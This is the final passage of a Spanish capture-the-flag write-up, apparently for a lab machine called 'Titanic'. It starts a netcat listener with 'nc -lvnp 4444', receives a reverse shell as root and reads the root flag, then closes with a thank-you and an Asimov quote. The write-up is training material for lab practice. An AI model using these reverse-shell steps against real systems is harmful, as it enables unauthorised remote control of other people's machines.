 Iniciaremos un `listener` desde nuestra máquina atacante a la espera de la conexión

~~~ bash
nc -lvnp 4444
listening on [any] 4444 ...
~~~

Al cabo de unos momentos obtendremos una consola como `root`

~~~ bash
connect to [10.10.14.16] from (UNKNOWN) [10.10.11.55] 58226
bash: cannot set terminal process group (441356): Inappropriate ioctl for device
bash: no job control in this shell
root@titanic:/opt/app/static/assets/images# id
id
uid=0(root) gid=0(root) groups=0(root)
root@titanic:/opt/app/static/assets/images# 
~~~

Ya podremos ver la flag en el directorio `/root` para concluir la máquina

~~~ bash
root@titanic:~# cat ~/root.txt
cfb...
~~~
<br>
Gracias por leer este artículo, espero te haya sido de ayuda. Te dejo la cita del día:

> A subtle thought that is in error may yet give rise to fruitful inquiry that can establish truths of great value.
> — Isaac Asimov
{: .notice--info}
